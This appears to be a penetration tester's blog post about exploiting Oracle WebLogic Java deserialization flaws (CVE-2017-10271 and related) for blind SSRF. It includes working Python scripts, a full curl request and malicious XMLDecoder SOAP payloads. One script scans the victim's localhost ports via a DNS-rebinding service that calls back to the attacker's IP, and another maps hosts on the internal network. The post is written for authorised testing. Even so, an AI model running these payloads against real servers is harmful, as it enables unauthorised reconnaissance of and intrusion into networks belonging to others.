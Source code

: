 ```yaml
---
layout: post
title: "Blind SSRF with Oracle WebLogic Deserialization"
date: 2020-09-26 22:00:00 +0300
author: snovvcrash
categories: /pentest
tags: [external-pentest, oracle, weblogic, java-deserialization, bind-ssrf, dns-rebinding, python]
published: true
---
```


A way to get an impact from exploiting Oracle WebLogic Server Java deserialization vulnerabilities (CVE-2017-3506, CVE-2017-10271, CVE-2019-2725, CVE-2019-2729, etc.) without triggering RCE through an SSRF attack.

<!--cut-->

![banner.png](/assets/images/blind-ssrf-with-oracle-weblogic-deserialization/banner.png)
{:.center-image}

* TOC
{:toc}

## Prologue

If you have discovered a running instance of Oracle WebLogic Server (>= 12.2.1.3) that is vulnerable to a Java deserialization attack during a pentest engagement but firing up RCE directly is not acceptable for you for some reason, then there is an alternative way to show impact to the Customer with an SSRF attack.

This type of vulnerabilities is usually exploited via deserialization of the `java.lang.ProcessBuilder` class to achieve command execution at the victim's host. Another class that can be successfully deserialized with a malicious SOAP request is `java.net.URL` which tries to interact with the provided URL. This attack scenario is implemented in [this](https://github.com/kkirsche/CVE-2017-10271) CVE-2017-10271 checker, for example. We can combine this trick with a blind SSRF attack to scan local ports listening on the target machine as well as discover new hosts within target's local network.

## Local Port Scan

### Python Simple HTTP Server

I built the following Python script and looped it through every TCP port at victim's localhost.

The script is mainly based on the [1u.ms](http://1u.ms/) service for DNS rebinding: it brings up a simple HTTP server on the attacker's box and then sends a malicious SOAP request to the target with `http://make-127.0.0.1-and-<ATTACKER_IP>rr.1u.ms:<PORT>` as a payload. If the target host **does not** have provided `<PORT>` opened, then DNS rebinding will be triggered and I will see that the response from victim came back right to my host (because the DNS query could not be resolved to victim's `127.0.0.1:<PORT>`). If the target host **does** have this `<PORT>` opened, then DNS rebinding will not be triggered and I will not see a response on my box which means victim's machine successfully resolved this DNS query to its localhost at the first place.

```
$ for port in `seq 1 65535`; do sudo python3 -u ssrf-port-scan.py $port 2>&1 | tee -a ports.log; done
```

```python
#!/usr/bin/env python3

import sys
import urllib3
from threading import Thread
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer

import requests

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


class HTTPServerInThread(Thread):

	def __init__(self, address, port):
		super().__init__()
		self.address = address
		self.port = port
		self.httpd = TCPServer((address, port), SimpleHTTPRequestHandler)

	def run(self):
		#print(f'[*] Serving HTTP on {self.address} port {self.port} (http://{self.address}:{self.port}/) ...')
		self.httpd.serve_forever()


class Default(dict):

	def __missing__(self, key):
		return '{' + key + '}'


if __name__ == '__main__':
	port = int(sys.argv[1])

	headers = {'Content-Type': 'text/xml;charset=UTF-8'}
	data = f"""<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java version="1.8" class="java.beans.XMLDecoder">
        <void id="url" class="java.net.URL">
          <string>http://make-127.0.0.1-and-<ATTACKER_IP>rr.1u.ms:{port}</string>
        </void>
        <void idref="url">
          <void id="stream" method = "openStream" />
        </void>
      </java>
    </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
"""

	server = HTTPServerInThread(address='0.0.0.0', port=port)
	server.daemon = True
	server.start()

	print(port)
	resp = requests.post('http://<TARGET_IP>/wls-wsat/CoordinatorPortType', headers=headers, data=data, verify=False)
	if resp.status_code != 500:
		print(f'[?] Status code for port {port} is {resp.status_code}')
```

Here is a PoC request that validates that the default WebLogic Server 7001/TCP port is listened on victim's 127.0.0.1:

[![burp-poc-7001.png](/assets/images/blind-ssrf-with-oracle-weblogic-deserialization/burp-poc-7001.png)](/assets/images/blind-ssrf-with-oracle-weblogic-deserialization/burp-poc-7001.png)
{:.center-image}

### tcpdump

An easier way to validate status of the remote port is to use tcpdump to monitor victim's responses:

```
$ sudo tcpdump -n -i eth0 -A -s0 'src <TARGET_IP> and tcp'
$ curl -i -s -k -X $'POST' \
    -H $'Host: <TARGET_IP>' \
    -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36' \
    -H $'Accept-Encoding: gzip, deflate' -H $'Accept: */*' -H $'Connection: close' -H $'Content-Type: text/xml;charset=UTF-8' -H $'Content-Length: 574' \
    --data-binary $'<soapenv:Envelope xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\">\x0d\x0a  <soapenv:Header>\x0d\x0a    <work:WorkContext xmlns:work=\"http://bea.com/2004/06/soap/workarea/\">\x0d\x0a      <java version=\"1.8\" class=\"java.beans.XMLDecoder\">\x0d\x0a        <void id=\"url\" class=\"java.net.URL\">\x0d\x0a          <string>http://make-127.0.0.1-and-<ATTACKER_IP>rr.1u.ms:7001</string>\x0d\x0a        </void>\x0d\x0a        <void idref=\"url\">\x0d\x0a          <void id=\"stream\" method = \"openStream\" />\x0d\x0a        </void>\x0d\x0a      </java>\x0d\x0a    </work:WorkContext>\x0d\x0a    </soapenv:Header>\x0d\x0a  <soapenv:Body/>\x0d\x0a</soapenv:Envelope>' \
    $'http://<TARGET_IP>/wls-wsat/CoordinatorPortType'
```

## Host Discovery

A similar approach can be used to discover live hosts within victim's local network. This attack is even more blind because you should guess a network range first as well as make a guess which port is definitely opened on a testing machine. I chose the 88 port to discover Kerberos KDC service on domain controllers within `192.168.10.0/24` network as an example. I do not use DNS rebinding here but instead look for request timeout events to differentiate live hosts:

```python
#!/usr/bin/env python3

import urllib3
from ipaddress import IPv4Network

import requests

if __name__ == '__main__':
        urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
        headers = {'Content-Type': 'text/xml;charset=UTF-8'}

        port = 88
        for ip in (str(i) for i in IPv4Network('192.168.10.0/24')):
                data = f"""<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java version="1.8" class="java.beans.XMLDecoder">
        <void id="url" class="java.net.URL">
          <string>http://{ip}:{port}</string>
        </void>
        <void idref="url">
          <void id="stream" method="openStream" />
        </void>
      </java>
    </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
"""

                try:
                        resp = requests.post('http://<TARGET_IP>/wls-wsat/CoordinatorPortType', headers=headers, data=data, verify=False, timeout=4)
                except requests.Timeout:
                    print(f'[-] {ip}:{port}')
                else:
                    print(f'[+] {ip}:{port}')
```

```
$ python3 -u ssrf-host-discovery.py | tee -a hosts.log
[-] 192.168.10.0:88
[-] 192.168.10.1:88
[-] 192.168.10.2:88
[-] 192.168.10.3:88
[-] 192.168.10.4:88
[-] 192.168.10.5:88
[-] 192.168.10.6:88
[-] 192.168.10.7:88
[-] 192.168.10.8:88
[-] 192.168.10.9:88
[+] 192.168.10.10:88
[-] 192.168.10.11:88
[-] 192.168.10.12:88
[-] 192.168.10.13:88
```

## Refs

* [Плохая логика. Выполняем произвольный код в популярном сервере приложений Oracle WebLogic — «Хакер»](https://xakep.ru/2018/01/18/oracle-weblogic-exploit/)
* [Подделка серверных запросов, эксплуатация Blind SSRF / Взрывной блог](https://bo0om.ru/blind-ssrf)
